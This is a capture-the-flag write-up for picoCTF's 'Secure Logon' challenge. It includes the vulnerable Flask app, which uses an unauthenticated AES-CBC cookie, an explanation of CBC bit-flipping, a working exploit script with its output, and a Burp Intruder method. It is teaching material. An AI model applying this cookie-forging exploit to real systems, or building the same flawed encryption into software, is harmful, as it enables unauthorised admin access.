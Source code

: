 # Secure Logon
Web Exploitation, 500 points

## Description:
> Uh oh, the login page is more secure... I think. 

```python
from flask import Flask, render_template, request, url_for, redirect, make_response, flash
import json
from hashlib import md5
from base64 import b64decode
from base64 import b64encode
from Crypto import Random
from Crypto.Cipher import AES

app = Flask(__name__)
app.secret_key = 'seed removed'
flag_value = 'flag removed'

BLOCK_SIZE = 16  # Bytes
pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * \
                chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)
unpad = lambda s: s[:-ord(s[len(s) - 1:])]


@app.route("/")
def main():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.form['user'] == 'admin':
        message = "I'm sorry the admin password is super secure. You're not getting in that way."
        category = 'danger'
        flash(message, category)
        return render_template('index.html')
    resp = make_response(redirect("/flag"))

    cookie = {}
    cookie['password'] = request.form['password']
    cookie['username'] = request.form['user']
    cookie['admin'] = 0
    print(cookie)
    cookie_data = json.dumps(cookie, sort_keys=True)
    encrypted = AESCipher(app.secret_key).encrypt(cookie_data)
    print(encrypted)
    resp.set_cookie('cookie', encrypted)
    return resp

@app.route('/logout')
def logout():
    resp = make_response(redirect("/"))
    resp.set_cookie('cookie', '', expires=0)
    return resp

@app.route('/flag', methods=['GET'])
def flag():
  try:
      encrypted = request.cookies['cookie']
  except KeyError:
      flash("Error: Please log-in again.")
      return redirect(url_for('main'))
  data = AESCipher(app.secret_key).decrypt(encrypted)
  data = json.loads(data)

  try:
     check = data['admin']
  except KeyError:
     check = 0
  if check == 1:
      return render_template('flag.html', value=flag_value)
  flash("Success: You logged in! Not sure you'll be able to see the flag though.", "success")
  return render_template('not-flag.html', cookie=data)

class AESCipher:
    """
    Usage:
        c = AESCipher('password').encrypt('message')
        m = AESCipher('password').decrypt(c)
    Tested under Python 3 and PyCrypto 2.6.1.
    """

    def __init__(self, key):
        self.key = md5(key.encode('utf8')).hexdigest()

    def encrypt(self, raw):
        raw = pad(raw)
        iv = Random.new().read(AES.block_size)
        cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return b64encode(iv + cipher.encrypt(raw))

    def decrypt(self, enc):
        enc = b64decode(enc)
        iv = enc[:16]
        cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return unpad(cipher.decrypt(enc[16:])).decode('utf8')

if __name__ == "__main__":
    app.run()

```

## Solution:

The website encrypts the cookie with an unknown key, and an admin cookie is needed in order to view the flag after loggin in.

When we try to login as a regular user (we don't even need a username or password), we see:
```
Success: You logged in! Not sure you'll be able to see the flag though.

No flag for you

Cookie: {'admin': 0, 'username': '', 'password': ''}
```

We need to alter the cookie and set "admin=1" in order to view the flag.

This can be done using an attack called "[Bit Flipping](https://en.wikipedia.org/wiki/Bit-flipping_attack). AES encryption is performed on blocks. Assume we can identify the exact location of the byte we want to modify (the "0" of "admin=0") at offset x. We can then modify the byte at x - BLOCK_SIZE (i.e. the byte in the previous block that has the same offset within a block) and control the value of the byte we want to change. This is needed since in AES-CBC, every block is not only decrypted using the key, but also XORed with the ciphertext from the previous block, making every plaintext block dependent on both the current and the previous ciphertext block.
Obviously, this comes with a price - we will corrupt other parts of the plaintext. However, if they don't contain any important information, the exploit will work. More about this can be found [here](https://blog.gdssecurity.com/labs/2010/10/6/crypto-challenges-at-the-csaw-2010-application-ctf-qualifyin.html).

How do we control the value we want to set? Well, in our example, given offset x, we know that when decrypting the ciphertext, we will get a "0" after performing:
```
byte_at_offset_x ^ byte_at_offset_x-16 ^ appropriate_key_byte
```

We don't know what the appropriate key byte is since the key is secret, but we know what everything else is.
So we replace (byte_at_offset_x-16) with (byte_at_offset_x-16 ^ "0" ^ "1"):
```
byte_at_offset_x ^ byte_at_offset_x-16 ^ appropriate_key_byte = "0"

byte_at_offset_x ^ (byte_at_offset_x-16 ^ "0" ^ "1") ^ appropriate_key_byte = 
byte_at_offset_x ^ byte_at_offset_x-16 ^ appropriate_key_byte ^ "0" ^ "1"   =
"0" ^ "0" ^ "1" = 
"1"
```

### Solving with dedicated script

The following script will solve the challenge:
```python
from pwn import *
import requests
import json
import base64

BASE_URL = "http://2018shell3.picoctf.com:13747"
AES_BLOCK_SIZE = 16

my_cookie = {}
my_cookie['password'] = "password12"
my_cookie['username'] = "username12"
my_cookie['admin'] = 0
log.info("My cookie: {}".format(my_cookie))

my_json_cookie = json.dumps(my_cookie, sort_keys=True) #Formatted like the server would
log.info("My sorted JSON cookie: {}".format(my_json_cookie))

s = requests.Session()
r = s.post(BASE_URL + "/login", data = {"user": my_cookie["username"], "password": my_cookie["password"]})

log.info("Server cookie - raw: {}".format(s.cookies['cookie']))
server_cookie_decoded = base64.b64decode(s.cookies['cookie'])
log.info("Server cookie - decoded: {}".format(enhex (server_cookie_decoded)))
my_json_cookie_with_dummy_iv = ("A" * AES_BLOCK_SIZE) + my_json_cookie
offset_of_byte_to_control = my_json_cookie_with_dummy_iv.find('0')
log.info("Offset of byte to control: {}".format(offset_of_byte_to_control))
offset_of_byte_to_flip = offset_of_byte_to_control - AES_BLOCK_SIZE #Flip byte in previous block
log.info("Offset of byte to flip: {}".format(offset_of_byte_to_flip))


server_cookie_decoded_copy = bytearray(server_cookie_decoded)
flip_value = server_cookie_decoded_copy[offset_of_byte_to_flip] ^ ord("0") ^ ord("1")
log.info("Flipping 0x{:02X} to 0x{:02X} at offset {}".format(server_cookie_decoded_copy[offset_of_byte_to_flip], flip_value, offset_of_byte_to_flip))
server_cookie_decoded_copy[offset_of_byte_to_flip] = flip_value
log.info("Server cookie - after flip: {}".format(enhex (str(server_cookie_decoded_copy))))
server_cookie_encoded_copy = base64.b64encode(server_cookie_decoded_copy).decode("utf-8")

s.cookies.set('cookie', None) # Needed in order to delete previous cookie
s.cookies.set('cookie', server_cookie_encoded_copy )

r = s.get(BASE_URL + "/flag")
for line in r.text.split("\n"):
    if "picoCTF{" in line:
        print line
```

Output:
```console
root@kali:/media/sf_CTFs/pico/Secure_Logon# python exploit.py
[*] My cookie: {'username': 'username12', 'admin': 0, 'password': 'password12'}
[*] My sorted JSON cookie: {"admin": 0, "password": "password12", "username": "username12"}
[*] Server cookie - raw: mCayHc6FRKrlwasUv9sUyXa139kAvaHRLJrnu4M48++aXPJg1SC/yKCcC59HZObWvBFg8k4LyapaBJkI68Txu94ybuXphGMHxdRwnzpr3SecGWa6OdZq82hM/3DkQ3Su
[*] Server cookie - decoded: 9826b21dce8544aae5c1ab14bfdb14c976b5dfd900bda1d12c9ae7bb8338f3ef9a5cf260d520bfc8a09c0b9f4764e6d6bc1160f24e0bc9aa5a049908ebc4f1bbde326ee5e9846307c5d4709f3a6bdd279c1966ba39d66af3684cff70e44374ae
[*] Offset of byte to control: 26
[*] Offset of byte to flip: 10
[*] Flipping 0xAB to 0xAA at offset 10
[*] Server cookie - after flip: 9826b21dce8544aae5c1aa14bfdb14c976b5dfd900bda1d12c9ae7bb8338f3ef9a5cf260d520bfc8a09c0b9f4764e6d6bc1160f24e0bc9aa5a049908ebc4f1bbde326ee5e9846307c5d4709f3a6bdd279c1966ba39d66af3684cff70e44374ae
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{fl1p_4ll_th3_bit3_7d7c2296}</code></p>
```

### Solving with BURP suite

It's also possible to brute-force the cookie with BURP suite to get the flag.

Open BURP suite and select the "Intruder" tab.
In the "Target" tab, enter the details of the server:

![Burp](images/burp_bitflip1.png)

In the "Positions" tab, enter the GET request format, together with the original cookie, and mark the cookie as the payload:

![Burp](images/burp_bitflip2.png)

In the "Payloads" tab, select the "Bit flipper" attack:

![Burp](images/burp_bitflip3.png)

In the "Options" tab, add grep rules for matching and extraction:

![Burp](images/burp_bitflip4.png)

Launch the attack and after a short while, it will flip the correct byte to provide the flag:

![Burp](images/burp_bitflip5.png)